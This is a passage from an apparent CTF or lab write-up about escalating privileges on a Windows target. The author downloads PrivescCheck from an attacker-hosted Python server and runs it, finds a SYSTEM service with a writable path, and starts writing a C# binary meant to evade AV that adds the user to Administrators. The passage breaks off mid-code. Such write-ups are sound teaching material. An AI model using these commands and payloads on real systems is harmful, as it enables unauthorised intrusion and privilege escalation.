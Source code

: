 With all that said i uploaded PrivescCheck.ps1 on the box since it usually doesn't trigger any defense mechanism, even if we have some problem we can run a simple AMSI bypass =) (ofc i wont share in the writeup).<br>
So i downloaded [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/raw/master/PrivescCheck.ps1) on my attacker machine then started a python server:
```bash
python3 -m http.server 80  #on kali machine
```
Then i downloaded the script on the victim windows machine:
```powershell
cd C:\Users\Tyler\Documents\
iwr http://10.8.79.118/PrivescCheck.ps1
. .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended
```
We found something very interesting:
	
![vulnerable service](./pic/vuln_service.png)
	
From this picture we can understand that we have full privilegese over this service and its path.<br>
The best part is that the service is running as NT AUTHORITY\SYSTEM, meaning we can set our binary in the service path and get code execution as SYSTEM!!<br>
In order to do that we need to prepare our payload, but remember: there is an AV in place.<br>
To evade security measure we can do something sneaky: run just normal windows commands to get highier privilege to our account, to bypass shellcode restiction we can compile our own c# .NET executable:
```c#
using System;
using System.Diagnostics;

class Program
{
    static void Main(string[] args)
    {
        // set the command string
        string command = "net localgroup Administrators tyler /add";

        // Create a powershell process
        ProcessStartInfo psi = new ProcessStartInfo
        {
            FileName = "powershell.exe",
            Arguments = $"-Command \"{command}\"",
            RedirectStandardOutput = true,
            RedirectStandardError = true,
            UseShellExecute = false,
            CreateNoWindow = true
        };

```